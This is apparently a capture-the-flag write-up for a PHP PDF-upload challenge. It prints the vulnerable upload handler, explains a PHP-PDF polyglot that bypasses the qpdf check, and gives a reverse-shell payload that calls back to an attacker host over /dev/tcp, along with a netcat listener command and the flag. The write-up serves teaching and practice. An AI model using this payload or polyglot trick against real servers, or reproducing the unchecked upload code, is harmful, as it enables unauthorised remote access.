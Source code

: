# Supreme PDF Hoster

## 200 Points - Web & Forensics

*Greetings Agent*
*One of our agents, Agent Gayyang managed to infiltrate the servers and obtained sensitive information of Snail Speed Corporation, which we suspect has conducted horrible crimes against humanity. However, their security team was right on his trail, and to prevent himself from being discovered, he quickly dumped the file into a random PDF hosting site controlled by someone who is paranoid about privacy and refuses to cooporate with us. [Site Here](http://ctfx.irscybersec.tk:8838/)*

*Your mission, should you choose to accept, is to infiltrate the PDF Hosting site and retrieve the file that is now held and hidden by the paranoid site owner. We have managed to obtain the PHP source code of the site as the owner bragged at how his site was "impenetrable even if we have the source code".*

We are also given the source code of the webpage below:

```php
<?php

$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
// Check if image file is an actual PDF. Those damn hackers can't get past these hahahahaha!
if(isset($_POST["submit"])) {
  $file = $_FILES["fileToUpload"]["tmp_name"];
$output = "";
$file = escapeshellarg($file);
$command = "qpdf --check " . $file. " 2>&1";
$output = shell_exec($command);

if (strpos($output, "file is damaged") === false) {
		if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
   		 echo "Success! Your PDF file is now availble for viewing ";
		echo "<a href='uploads/".$_FILES["fileToUpload"]["name"]."'>here</a>";
		echo ". Thank you for using surpreme PDF Hoster";
	}
	else { 	
		echo "Whoops, error while uploading PDF file. Please contact tkai";
	}
}
else {
	echo "Please upload a valid PDF file! No tricks!";
}
}

?>
```

There is a shell_exec in the source code. However, the filename is first passed through escapeshellargs(), not to mention it is only a temp fall name and not the actual file name. So executing arbitrary commands via shell_exec() seems to be out of the option. (*Maybe you guys can make use of it idk, not a web expert ​*:stuck_out_tongue:)

When we upload a PDF file, it gives us a link to the PDF file where we can view it. It also seems like it **does not check for the file extension**, but it does **pass it through `qpdf --check`**, which will report any errors if there are errors in the PDF, or if it is not a valid PDF file. So passing in a php file won't seem to work. (Or will it? :thinking:)

My intention for this challenge was to explore the use of polyglots. In particular, a `PHP-PDF Polyglot` file, which will open as a valid PDF file with not a single error, and behave as a PHP file when renamed to a .php file. If you read about more about Polyglot files [here](https://fahrplan.events.ccc.de/congress/2014/Fahrplan/system/attachments/2562/original/Funky_File_Formats.pdf), you will learn that PDF files **do not care about when their headers start**. Hence, you can insert PHP code at the front of a PDF file and it won't complain the slightest bit.

Here is an example of an exploit:

```php
//exploit2.php
//Note: it uses /bin/sh instead of /bin/bash, so the following payload is necessarry
<?php echo(exec("bash -c 'bash -i >& /dev/tcp/<Attack_server_ip>/4444 0>&1'")); ?>
%PDF-1.5
%ÐÔÅØ
3 0 obj
<<
...
```

After we upload exploit2.php, we can then run

```bash
nc -lnvp 4444
```

on a public server (or portforwarded home network) to receive the connection, then visit the reverse shell to run it and get a shell on the server.

After getting the shell on the server, moving back 2 times `../../`, will reveal a `Snail_speed_corp_trade_secrets.pdf`. Opening it reveals a quote talking about **secrets hidden within it**. **Binwalking** the PDF will reveal a jpeg hidden inside, and opening it reveals the flag:

```
IRS{P0lY_g0t?_300L!}
```



### (Intended) Learning Points:

- Polyglot Files :smile:
- Simple reverse shell basics